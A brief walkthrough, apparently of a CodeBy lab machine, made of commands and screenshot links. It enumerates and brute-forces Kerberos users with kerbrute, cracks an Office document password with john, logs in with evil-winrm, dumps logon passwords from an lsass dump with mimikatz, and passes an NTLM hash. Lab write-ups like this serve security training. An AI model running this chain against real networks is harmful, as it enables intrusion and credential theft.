 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c16212f1-d41a-4d2b-a75a-691ecc0b5fe8)
```
nmap -p- 192.168.2.6 -v -sC -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d7b61cca-0808-4a02-ab7c-560608ea7f29)
```
enum4linux-ng 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bd453887-4dea-4225-9bde-d773b70e44ad)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Usernames/xato-net-10-million-usernames.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/941e6f33-2a43-40df-bdf1-511c56f6a494)
```
./kerbrute_linux_amd64 bruteuser -d codeby.cdb --dc 192.168.2.6 /home/kali/PayloadsAllTheThings/SecLists/SecLists/Passwords/xato-net-10-million-passwords-10000.txt ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/8035c75c-d20f-4708-83b9-df86047e220a)
```
enum4linux-ng 192.168.2.6 -u 'ekaterina' -p 'ekaterina'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/24d96388-7794-41b7-9e51-8470c4dec474)
```
smbmap -u "ekaterina" -p "ekaterina" -d codeby.cdb -H 192.168.2.6
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f120e4b2-c956-4931-bf30-571290b37ac1)
```
smbclient //192.168.2.6/Ekaterina -U ekaterina
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3c3a1463-1afb-4b0b-a082-19dedf55245a)
```
office2john confidental.docx > hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2dd71b05-1859-4077-80c0-f9bbd6130c9e)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt hash.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/bdd4cc23-4bf3-4758-8517-39ff59e2c009)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4ca25d04-9f63-41fc-81e9-67b453f73b1f)

```
evil-winrm -i 192.168.2.6 -u a.gusev -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/21b7a047-2c2a-4acf-8ce9-40963bd38006)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9be9c7c3-539a-4892-84bf-68fa22459e4f)
```
./winPEASx64.exe
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3ff5fb9d-e967-4246-ad95-60f10c375f16)

https://github.com/ParrotSec/mimikatz

Спасибо @Alex_Gubich

```
.\mimikatz.exe "sekurlsa::minidump C:\Users\a.gusev\AppData\Local\Microsoft\Windows\lsass.dmp" sekurlsa::logonPasswords exit
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e94d1e30-12f2-4784-93ad-eac13c0e0a39)

```
evil-winrm -i 192.168.2.6 -u exited3n -H NTLM_HASH
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b7db4e0d-d59d-4767-a31e-fb72eb208fe1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6f3d0cfc-9f51-44a0-a619-d237e9ece127)

